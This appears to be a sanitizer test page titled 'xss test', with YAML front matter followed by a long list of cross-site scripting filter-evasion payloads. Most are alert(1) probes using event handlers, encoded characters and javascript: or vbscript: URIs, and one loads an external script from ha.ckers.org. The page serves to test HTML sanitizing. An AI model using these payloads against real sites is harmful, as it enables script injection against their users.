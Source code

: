 ```yaml
---
title: xss test
date: 2019-07-18T08:23:44.456Z
description: '<audio src=1 href=1 onerror="javascript:alert(1)"></audio>'
directory: Bad Articles
priority: 1
role: '<audio src=1 href=1 onerror="javascript:alert(1)"></audio>'
tags:
  - <script>alert("hello")</script>
---
```

<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>

&#34;&#62;<h1/onmouseover='\u0061lert(1)'>%00

<video><source onerror="javascript:javascript:alert(1)">

<video onerror="javascript:javascript:alert(1)"><source>

<img src="javascript:alert(1)">

<img \x00src=x onerror="alert(1)">

<img \x47src=x onerror="javascript:alert(1)">

<img \x11src=x onerror="javascript:alert(1)">

<img \x12src=x onerror="javascript:alert(1)">

<img\x47src=x onerror="javascript:alert(1)">

<img\x10src=x onerror="javascript:alert(1)">

<img\x13src=x onerror="javascript:alert(1)">

<img\x32src=x onerror="javascript:alert(1)">

<img\x47src=x onerror="javascript:alert(1)">

<img\x11src=x onerror="javascript:alert(1)">

<img \x47src=x onerror="javascript:alert(1)">

<img \x34src=x onerror="javascript:alert(1)">

<img \x39src=x onerror="javascript:alert(1)">

<img \x00src=x onerror="javascript:alert(1)">

<img src\x09=x onerror="javascript:alert(1)">

<img src\x10=x onerror="javascript:alert(1)">

<img src\x13=x onerror="javascript:alert(1)">

<img src\x32=x onerror="javascript:alert(1)">

<img src\x12=x onerror="javascript:alert(1)">

<img src\x11=x onerror="javascript:alert(1)">

<img src\x00=x onerror="javascript:alert(1)">

<img src\x47=x onerror="javascript:alert(1)">

<img src=x\x09onerror="javascript:alert(1)">

<img src=x\x10onerror="javascript:alert(1)">

<img src=x\x11onerror="javascript:alert(1)">

<img src=x\x12onerror="javascript:alert(1)">

<img src=x\x13onerror="javascript:alert(1)">

<img\[a]\[b]\[c]src\[d]=x\[e]onerror=\[f]"alert(1)">

<img src=x onerror=\x09"javascript:alert(1)">

<img src=x onerror=\x10"javascript:alert(1)">

<img src=x onerror=\x11"javascript:alert(1)">

<img src=x onerror=\x12"javascript:alert(1)">

<img src=x onerror=\x32"javascript:alert(1)">

<img src=x onerror=\x00"javascript:alert(1)">

<a href=java&#1&#2&#3&#4&#5&#6&#7&#8&#11&#12script:javascript:alert(1)>XXX</a>

<img src="x\` \`<script>javascript:alert(1)</script>"\` \`>

<img src onerror /" '"= alt=javascript:alert(1)//">

<title onpropertychange=javascript:alert(1)></title><title title=>

<a href=http://foo.bar/#x=`y></a><img alt="`><img src=x:x onerror=javascript:alert(1)></a>">

<!--\[if]><script>javascript:alert(1)</script -->

<!--\[if<img src=x onerror=javascript:alert(1)//]> -->

<IMG LOWSRC="javascript:javascript:alert(1)">

<img src=\`%00\`&NewLine; onerror=alert(1)&NewLine;

<IMG SRC='vbscript:msgbox("XSS")'>

<math><a xlink:href="//jsfiddle.net/t846h/">click

